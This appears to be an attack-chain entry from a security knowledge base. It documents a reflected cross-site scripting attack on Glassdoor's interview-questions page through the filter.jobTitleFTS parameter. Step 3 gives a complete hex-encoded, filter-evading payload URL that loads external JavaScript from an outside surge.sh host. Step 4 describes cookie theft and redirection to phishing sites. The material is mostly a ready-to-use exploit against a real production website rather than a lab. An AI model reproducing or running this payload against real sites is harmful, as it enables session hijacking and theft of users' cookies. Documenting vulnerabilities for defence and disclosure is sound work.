

---
tags:
  - xss
  - reflected-xss
  - javascript-injection
  - cookie-theft
  - web-exploit
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Navigate-to-Glassdoor-Interview-Page]]'
  - '[[procedures/Add-Country-Redirect-Parameter]]'
  - '[[procedures/Inject-XSS-Payload-into-Filter-Parameter]]'
  - '[[procedures/Observe-Payload-Execution-and-Impact]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T00:11:15.821Z'
description: >-
  A multi-step attack exploiting a reflected XSS vulnerability in Glassdoor's
  interview questions page to inject and execute JavaScript, enabling cookie
  theft and user redirection.
skill_level: intermediate
impact_level: high
id: ab0b8fcd-bbb6-4503-a2fb-d4021c5b7d3f
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS in Glassdoor Interview Page via filter.jobTitleFTS Parameter for Cookie Theft

Multi-stage attack chain demonstrating a complete reflected XSS workflow on Glassdoor's interview questions page, allowing arbitrary JavaScript execution to steal user cookies and redirect to malicious sites.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome or Firefox for testing payloads)

### Target Environment

- Web platform
- Access to Glassdoor's interview questions pages (publicly accessible)
- No specific services or ports required beyond standard HTTPS (443)

### Initial Access Requirements

- No credentials needed (public page)
- Direct network access to https://www.glassdoor.com
- No prior access required

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Navigate-to-Glassdoor-Interview-Page]]

**Objective**: Access the base interview questions page with an initial search filter to set up the vulnerable parameter.

**Instructions**: Open a web browser and navigate to the Glassdoor interview page for a specific company, such as Accenture, including an initial value in the filter.jobTitleFTS parameter to mimic a legitimate search.

Enter the URL directly in the browser address bar:

```url
https://www.glassdoor.com/Interview/Accenture-Interview-Questions-E4138.htm?filter.jobTitleFTS=Business%20Analyst
```

**Expected Output**: The page loads displaying interview questions filtered by "Business Analyst" job title, without any errors or redirections.

**Success Indicators**:
- Page loads successfully with filtered results
- The filter.jobTitleFTS parameter is visible in the URL

### Step 2: Preparation
procedure: [[procedures/Add-Country-Redirect-Parameter]]

**Objective**: Modify the URL to include a parameter that prevents automatic country-based redirection, ensuring the payload can be tested without interference.

**Instructions**: Append the countryRedirect=true parameter to the existing URL to disable redirection logic that might interrupt payload execution.

Update the URL in the browser:

```url
https://www.glassdoor.com/Interview/Accenture-Interview-Questions-E4138.htm?filter.jobTitleFTS=Business%20Analyst&countryRedirect=true
```

**Expected Output**: The page reloads with the same content, but redirection is suppressed, allowing subsequent parameter modifications to take effect.

**Success Indicators**:
- No automatic redirect to a country-specific domain occurs
- Page content remains unchanged and accessible

### Step 3: Execution
procedure: [[procedures/Inject-XSS-Payload-into-Filter-Parameter]]

**Objective**: Inject a malicious JavaScript payload into the filter.jobTitleFTS parameter to exploit the reflected XSS vulnerability.

**Instructions**: Replace the value of the filter.jobTitleFTS parameter with a URL-encoded XSS payload that injects and executes external JavaScript. The payload uses obfuscation (e.g., mixed case in tags and attributes) to bypass basic filters.

Construct and load the full PoC URL in the browser:

```url
https://www.glassdoor.com/Interview/Accenture-Interview-Questions-E4138.htm?filter.jobTitleFTS=%3c%3c%3ca%3ea%3escript%20SrC%3d%22%68%74%74%70s%3a%2f%2f%73%6b%69%6e%6e%79%2d%66%65%61%72%2e%73%75%72%67%65%2e%73%68%2f%70%61%79%6c%6f%61%64%2e%6a%73%22%3e%3c%3c%3ca%3ea%3e%2fscript%3e&countryRedirect=true
```

(Decoded payload: <<<a>a>script SrC="https://skinny-fear.surge.sh/payload.js"> <<<a>a>/script>)

**Expected Output**: The page attempts to load, but the injected script is reflected in the response without sanitization.

**Success Indicators**:
- Payload appears unescaped in the page source
- No immediate errors from input validation

### Step 4: Impact
procedure: [[procedures/Observe-Payload-Execution-and-Impact]]

**Objective**: Verify payload execution and demonstrate potential impacts like alert popups, cookie theft, or redirection.

**Instructions**: Load the modified URL in a browser and observe the execution of the external JavaScript file, which triggers an alert. In a real attack, the script could exfiltrate cookies via XMLHttpRequest or redirect to a phishing site.

Simply refresh or navigate to the PoC URL in Chrome or Firefox.

**Expected Output**: An alert box pops up from the payload.js script (e.g., displaying "XSS Executed"), confirming JavaScript execution in the victim's context.

**Success Indicators**:
- JavaScript alert triggers successfully
- Browser console shows network request to the external payload.js
- In extended tests, cookies can be logged or sent to an attacker server

## Attack Chain Summary

### Key Achievements

1. Successful navigation and preparation of the vulnerable page without triggering defenses.
2. Injection and reflection of obfuscated XSS payload bypassing basic sanitization.
3. Execution of arbitrary JavaScript, enabling theft of session cookies and user redirection to malicious domains.
4. Demonstration of high-impact effects on public-facing web application.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
